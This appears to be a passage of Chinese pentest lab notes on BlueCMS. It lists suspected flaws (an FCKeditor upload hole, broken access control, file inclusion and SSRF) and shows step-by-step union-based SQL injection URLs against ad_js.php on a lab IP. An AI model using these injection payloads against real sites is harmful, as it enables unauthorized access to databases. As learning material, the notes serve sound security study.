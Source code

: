       - fckeditor编辑器存在文件上传漏洞
  - 删除功能点可能存在的漏洞：
    - 越权
    - 未授权
  - 添加广告后，发现"获取JS"的功能，根据获取JS的这个功能猜测JS的获取途径
    - 本地：文件包含，任意文件读取
    - 数据库：SQLi
    - 远程服务器：远程文件包含，ssrf
  - 根据测试可发现，获取js的文件给出的路径，信息是存在数据库中，所以测试SQL注入的漏洞的可能性
  ```
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=3 (查询源代码可知，没有任何返回值)
  ```
  ![Alt text](image-9.png)
  根据报错情况确当列数
  ```
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=3 order by 1
  ...
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=3 order by 8
  // 报错
  ```
  - 证明字段共有7位
  ```
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=3 union all select 1,2,3,4,5,6,7
  ```
  - 依然无数据，猜测可能时显示位不足导致的，将第一个返回值查询失败，使其不显示，然后测试
  ```
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=-3 union all select 1,2,3,4,5,6,7
  ```
  - 测试可得：
  ![Alt text](image-10.png)
  - 证明第七位可以显示，至此，可以使用联合注入分别得到库名，表名，字段名和数据
  ```
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=-3%20union%20all%20select%201,2,3,4,5,6,database()
  ```
  ![Alt text](image-11.png)
  ```
  ```
